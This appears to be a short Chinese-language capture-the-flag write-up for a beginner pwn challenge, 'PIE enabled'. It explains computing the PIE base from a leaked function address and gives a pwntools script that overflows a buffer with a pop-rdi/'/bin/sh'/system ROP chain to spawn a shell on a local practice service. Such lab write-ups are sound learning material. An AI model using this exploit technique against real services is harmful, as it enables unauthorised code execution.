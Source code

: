 ```yaml
---
title: PIE enabled
date: 2023/9/24 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`pwn`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

vuln函数直接把自己的地址打印出来了...直接减一减拿到piebase就和之前的题一样了

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 46153)
sh.recvuntil(b'is:') # skip
elf = ELF('pwnpie')
vuln = elf.symbols['vuln']
pieBase = int(sh.recvline()[2:14], 16) - vuln # 做完才发现int可以直接从bytes转换，不一定是str
shstrAddr = pieBase + 0x4010
popRdiAddr = pieBase + 0x1323
systemAddr = pieBase + 0x11d8
sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(shstrAddr) + p64(systemAddr))
sh.interactive()
```

Done.
